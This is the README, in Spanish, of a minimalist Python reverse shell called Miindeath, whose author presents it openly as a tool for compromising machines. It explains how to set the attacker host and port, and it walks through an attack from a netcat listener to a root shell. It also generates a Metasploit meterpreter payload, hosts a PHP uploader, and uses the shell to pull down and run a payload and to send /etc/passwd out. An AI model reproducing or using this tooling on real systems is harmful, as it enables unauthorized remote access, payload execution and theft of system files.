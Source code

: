 ## Miindeath

\- Miindeath (Siglas de MInImalist Death). Es una shell inversa escrita en Python ( 3 ). que trata de ser lo más simple posible para lograr comprometer una máquina.

## Instalación

**No requiere librerías externas**

```bash
git clone https://github.com/DtxdF/Miindeath.git
cd Miindeath
```

## Modo de ejecución

```bash
editor miindeath.py # Nos vamos a las lineas 54-77 y configuramos a nuestro gusto
```

### Ejemplo:

```
...
class config(object):

    RHOST = '127.0.0.1'
    RPORT = 4444
    LIMIT = 0 # 0 Es infinito
    #timeout = 180 # 3 minutos
    # Los bufers de red
    RECV = 1024
    SEND = 1024
    HEADERS = {
            
        'User-Agent':'Hi!, My Name is DtxdF :)'
            
    }
    
    # Claves de los valores POST
    FILENAME = 'filename' # El nombre del archivo
    FILECONTENT = 'filecontent' # El contenido del archivo

    UNIT_SEP = '.AND.' # Cómo si fuera "bash" o una shell 
                       # cualquiera, para ejecutar varios 
                       # comandos internos.
    SLEEP = 15
    RECONNECT = True # Reconectar sí hay una desconexión, doh.
...
```

Es fácil deducir qué es cada cosa, pero para simplificar la explicación, sólo cambiemos "*RHOST*" y "*RPORT*" a los valores correspondientes.

### Atacando:

```bash
# Victima:
$ ./miindeath # (En caso que se haya compilado a un ejecutable) o python3 miindeath.py
...
# Atacante:
$ nc -lvvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 32974
(5857): root@10.124.185.221:/home/dtxdf/tmp$ shell whoami
root
...
```

### Subiendo y Descargando archivos:

El atacante tiene que tener listo un servidor cualquiera para subir y bajar archivos.

En el caso de la bajada de archivos:

```python
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

*También podria usar Apache (o **cualquier otro**), pero para hacer una simple demostración ...*

Para ser más malévolos, usemos Metasploit O:) ...

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=localhost LPORT=4444 -o script.py
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 446 bytes
Saved as: script.py
```

En el caso de la subida:

Creamos un simple *uploader* en PHP (**uploader.php**) y lo subimos a nuestro servidor con PHP **instalado** (Aunque podriamos hacer "**php -S 0.0.0.0:8081**").

```php
<?php

	if (isset($_POST['filename'])&&isset($_POST['filecontent'])) {

		fwrite(fopen(basename($_POST['filename']), 'wb'), $_POST['filecontent']);
	
	}

?>
```

*En la configuración pueden cambiar los nombres de los parámetros **POST***

Ahora en la shell para descargar:

```bash
(5857): root@10.124.185.221:/home/dtxdf/tmp$ download http://localhost:8080/script.py /tmp/payload.py
Guardado => /tmp/payload.py
```
Ahora sólo lo ejecutamos y tenemos una mejor shell con poderes.

Y por último, para subir:

```bash
(5857): root@10.124.185.221:/home/dtxdf/tmp$ upload http://localhost:8081/uploader.php /etc/passwd
/etc/passwd, fue subido correctamente
```

**:)**

## Notas:

Aunque sea una simple conexión entre sockets (TCP), la subida y bajada de archivos usa HTTP, simplemente porque es más sencillo para un atacante descargar/subir archivos de cualquier servidor público :)

~ **DtxdF**
